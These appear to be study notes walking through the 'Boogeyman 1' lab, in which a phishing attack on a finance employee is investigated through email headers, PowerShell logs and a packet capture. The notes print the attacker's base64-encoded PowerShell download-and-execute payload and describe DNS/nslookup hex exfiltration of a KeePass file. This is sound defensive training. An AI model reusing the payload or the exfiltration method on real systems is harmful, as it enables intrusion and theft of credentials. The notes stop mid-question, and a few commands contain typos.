

# Boogeyman 1

> Structured cybersecurity study notes converted from the source DOCX. Commands, indicators, answers, and investigation pivots are preserved for rapid reference.

Uncover the secrets of the new emerging threat, the Boogeyman.
In this room, you will be tasked to analyze the Tactics, Techniques, and Procedures (TTPs) executed by a threat group, from obtaining initial access until achieving its objective.
Artefacts
## For the investigation proper, you will be provided with the following artefacts

Copy of the phishing email (dump.eml)
PowerShell Logs from Julianne's workstation (PowerShell.json)
Packet capture from the same workstation (capture.pcapng)
Note: The PowerShell.json file contains JSON-formatted PowerShell logs extracted from its original evtx file via the evtx2json tool.
You may find these files in the /home/ubuntu/Desktop/artefacts directory.
Tools
## The provided VM contains the following tools at your disposal

Thunderbird - a free and open-source cross-platform email client.
LNKParse3 - a python package for forensics of a binary file with LNK extension.
Wireshark - GUI-based packet analyzer.
## Tshark - CLI-based Wireshark.

jq - a lightweight and flexible command-line JSON processor.
To effectively parse and analyze the provided artefacts, you may also utilise built-in command-line tools such as:
```text
grep
```

sed
awk
base64
Now, let's start hunting the Boogeyman!
## Task2: The Boogeyman is here!

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.


The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from the other finance department employees, making it seem to be a targeted attack on the finance team. Upon checking the latest trends, the initial TTP used for the malicious attachment is attributed to the new threat group named Boogeyman, known for targeting the logistics sector.
You are tasked to analyze and assess the impact of the compromise.
## Investigation Guide

Given the initial information, we know that the compromise started with a phishing email. Let's start with analyzing the dump.eml file located in the artefacts directory. There are two ways to analyze the headers and rebuild the attachment:
The manual way uses command-line tools such as cat, grep, base64, and sed. Analyse the contents manually and build the attachment by decoding the string located at the bottom of the file.
```text
ubuntu@tryhackme:~
ubuntu@tryhackme$ echo # sample command to rebuild the payload, presuming the encoded payload is written in another file, without all line terminators
ubuntu@tryhackme$ cat *PAYLOAD FILE* | base64 -d > Invoice.zip
```

An alternative and easier way to do this is to double-click the EML file to open it via Thunderbird. The attachment can be saved and extracted accordingly.
Once the payload from the encrypted archive is extracted, use lnkparse to extract the information inside the payload.
```text
ubuntu@tryhackme:~
ubuntu@tryhackme$ lnkparse *LNK FILE*
```

## Questions and Answers

### What is the email address used to send the phishing email?

```text
grep -I from dump.eml
```

- There is only one human in the headers
- **Answer:** agriffin@bpakcaging.xyz
### What is the email address of the victim?

```text
grep -I to dump.eml
```

- gave answer, but better to be more specific
```text
grep -I "to:" dump.eml
```

- **Answer:** julianne.westcott@htomail.com
### What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

```text
grep -I "dkim" dump.eml
```

- two possible answers. One is the domain used by the attacker and the other is a different service, which more likely represents the third-party bouncer
- **Answer:** elasticemail
### What is the name of the file inside the encrypted attachment?

- Open in Thunderbird email application
- Extracted with Message>Attachments
```text
unzip Invoice.zip
```

- Requests a password, but gives the answer to the question
- **Answer:** Invoice_20230103.lnk
### What is the password of the encrypted attachment?

- In the body of the email
- **Answer:** Invoice2023!
### Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

```text
lnkparse -a <file>
lnkparse -a Invoice_20230103.lnk > output
cat output
```

- There is only one line and it's encoded in base64
- **Answer:** aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
### Are you sure that's an invoice?

Based on the initial findings, we discovered how the malicious attachment compromised Julianne's workstation:
A PowerShell command was executed.
Decoding the payload reveals the starting point of endpoint activities.
## Investigation Guide

With the following discoveries, we should now proceed with analyzing the PowerShell logs to uncover the potential impact of the attack:
Using the previous findings, we can start our analysis by searching the execution of the initial payload in the PowerShell logs.
Since the given data is JSON, we can parse it in CLI using the jq command.
Note that some logs are redundant and do not contain any critical information; hence can be ignored.
## JQ Cheatsheet

jq is a lightweight and flexible command-line JSON processor. This tool can be used in conjunction with other text-processing commands.
You may use the following table as a guide in parsing the logs in this task.
Note: You must be familiar with the existing fields in a single log.
| Parse all JSON into beautified output | cat PowerShell.json \| jq |
| --- | --- |
| Print all values from a specific field without printing the field | cat PowerShell.json \| jq '.Field1' |
| Print all values from a specific field | cat PowerShell.json \| jq '{Field1}' |
| Print values from multiple fields | cat PowerShell.json \| jq '{Field1, Field2}' |
| Sort logs based on their Timestamp | cat PowerShell.json \| jq -s -c 'sort_by(.Timestamp) \| .[]' |
| Sort logs based on their Timestamp and print multiple field values | cat PowerShell.json \| jq -s -c 'sort_by(.Timestamp) \| .[] \| {Field}' |

You may continue learning this tool via its documentation.
## Questions and Answers

### What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)

- the PowerShell logs are provided
- familiarize with the log, first
```text
cat PowerShell.json | jq
```

- Keys: Teimestamp, Channel, Provider,Hostname, SID, EventID, RecordID, Level, Descr, MessageNumber, MessageTotal, ScriptBlockText, ScriptBlockId, Path, ContextInfo, Payload
- lots of feedback and difficult to sift
- reveals two additional fields not visible previously: ContextInfo and Payload
- the domain from the email was "bpakcaging.xyz"
```text
cat PowerShell.json | jq | grep -I bpakcaging.xyz
```

- The question asks for two domains. There are two servers/endpoints/domains in the results
- **Answer:** cdn.bpakcaging.xyz,files.bpakcaging.xyz
### What is the name of the enumeration tool downloaded by the attacker?

- Using PowerShell to download anythriing typically requires the use of the ".downloadstring" function in the iex object
```text
cat PowerShell.json | jq | grep -I downloadstring
```

- It is used twice, one download comes from the malicious domain and the other comes from github. Likely the answer is the github download because its still early in the exploit process, still trying to delvier payload
- **Answer:** seatbelt
### What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.

```text
cat PowerShell.json | jp | grep -I "sq3.exe"
```

- Reveals this line, but the full path must still be determined.: ".\\Music\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite \"SELECT * from NOTE limit 100\";pwd"
- from other lines in the json, we know User = QL-WKSTN-5693\\j.westcott
- **Answer:** C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite
### What is the software that uses the file in Q3?

- In the previous answer, we see "MicrosoftStickyNOtes" is being used to run plum.sqlite.
- **Answer:** Microsoft Sticky Notes
### What is the name of the exfiltrated file?

- Harder
- Must examine all the ScriptBlockText
```text
cat PowerShell.json | jq '.ScriptBlockText' | sort | uniq
```

- The answer is in the first few lines of the results
- **Answer:** protected_data.kdbx
### What type of file uses the .kdbx file extension?

- OSINT
- **Answer:** keepass
### What is the encoding used during the exfiltration attempt of the sensitive file?

In the same results, "$hex" appears
- **Answer:** hex
### What is the tool used for exfiltration?

- Still in the results, "nslookup"
- **Answer:** nslookup
## They got us. Call the bank immediately!

## Based on the PowerShell logs investigation, we have seen the full impact of the attack

The threat actor was able to read and exfiltrate two potentially sensitive files.
The domains and ports used for the network activity were discovered, including the tool used by the threat actor for exfiltration.
## Investigation Guide

Finally, we can complete the investigation by understanding the network traffic caused by the attack:
Utilise the domains and ports discovered from the previous task.
All commands executed by the attacker and all command outputs were logged and stored in the packet capture.
Follow the streams of the notable commands discovered from PowerShell logs.
Based on the PowerShell logs, we can retrieve the contents of the exfiltrated data by understanding how it was encoded and extracted.
## Questions and Answers

### What software is used by the attacker to host its presumed file/payload server?

- Apply Filter: http contains "server"
- One packet uses an external source IP (167.71.211.113), packet 39168
- The HTTP header block contains server "SimpleHTTP/0.6 Python/3.10.7"
- **Answer:** Python
### What HTTP method is used by the C2 for the output of the commands executed by the attacker?

- Filter: http.request.method==* (doesn't work, no results)
- Change to POST
- Starting at packet 33288, there is a significant increase in HEX
- **Answer:** Post
### What is the protocol used during the exfiltration activity?

- more or less a stright hunt looking for visual oddities
- Near packet 47771, the DNS protocol changes significantly to incldue hex values in a subdomain
- **Answer:** DNS
### What is the password of the exfiltrated file?

- previously identifed the use of sq3.exe to perform sqlite queries.
- need to identify the response to that query
- filter: "http contains sq3.exe"
- packet 44459 contains the query
- release the filter
- the next POST in response to the query is packet 44467, which contains a ton of hex
- follow the TCP stream to reveal the entire hex stream
- decode hex in cyberchef
- **Answer:** %p9^3!lL^Mz47E2GaT^y
### What is the credit card number stored inside the exfiltrated file?

Find all the packets with the hex subdomains
```text
filter: dns
```

- we can find all the packets with the target information
- add a filter based on what is seen in the window
```text
filter: (dns) && (ip.dst == 167.71.211.113)
```

- still leaves a bunch of packets. Need to figure out the differencew between our target packets and the extraneous packets
```text
filter: ((dns) && (ip.dst == 167.71.211.113)) && (dns.qry.type == 1) ) // this searches for only the queries for "A" records and excludes the more common PTR records.
```

- Move to a command line tool and construct the query
```text
tshare -r capture.pcapng ((dns) && (ip.dst == 167.71.211.113)) && (dns.qry.type == 1) ) | cut -d " " -f 12 // this gets the hex subdomains to the beginning of each line
tshare -r capture.pcapng ((dns) && (ip.dst == 167.71.211.113)) && (dns.qry.type == 1) ) | cut -d " " -f 12 | cut -d "." -f 1 // leavs only the hex value
```

- through errors realize there are several problems
- need to remove the line breaks
- convert back to the proper file format
- save to the protected_data.kdbx
